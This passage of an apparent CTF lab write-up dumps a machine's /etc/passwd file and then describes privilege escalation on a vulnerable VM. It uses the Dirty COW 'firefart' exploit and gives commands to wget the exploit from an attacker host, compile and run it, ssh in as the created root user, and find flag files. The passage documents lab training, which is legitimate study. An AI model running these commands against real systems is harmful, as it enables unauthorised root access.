 libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:108::/var/run/dbus:/bin/false
bind:x:104:115::/var/cache/bind:/bin/false
postfix:x:105:116::/var/spool/postfix:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/bin/false
dovecot:x:107:118:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:108:119:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:109:120::/var/lib/landscape:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:111:121:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
avahi:x:112:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:113:124:colord colour management daemon,,,:/var/lib/colord:/bin/false
libvirt-qemu:x:114:107:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:115:125:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
tomcat7:x:116:126::/usr/share/tomcat7:/bin/false
crackmeforpoints:x:1000:1000::/home/crackmeforpoints:
statd:x:117:65534::/var/lib/nfs:/bin/false
{% endhighlight %}

## PrivEsc

I did a search on exploit-db and it looks like this might be a use case for dirty cow, however when trying to run the exploit it always seemed to throw a kernel error and made the machine unusable, at least with the the renditions I tried.  I went ahead and peeked at a walkthrough and saw chkrootkit.  My takeaway was a way to find chkrootkit on the file system if possible:

{% highlight bash %}
find -type d -printf '%d\t%P\n' 2>&1 | sort -r -nk1 | cut -f2- | grep -i 'chkrootkit' | grep -v "find"
{% endhighlight %}

After a lot a messing around I decided to try dirty cow again, after more research it seemed like a timing issue.  I was able to finally get the firefart variant (https://www.exploit-db.com/exploits/40839/) to work.

{% highlight bash %}
wget http://kalivm:8000/firefart.c
gcc firefart.c -pthread -o firefart -lcrypt
./firefart firefart
ssh firefart@sednavm
pass: firefart
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
{% endhighlight %}

Now I had a root shell!

{% highlight bash %}
cd /
find . -name 'flag.txt'
/root/flag.txt
/var/www/flag.txt
{% endhighlight %}
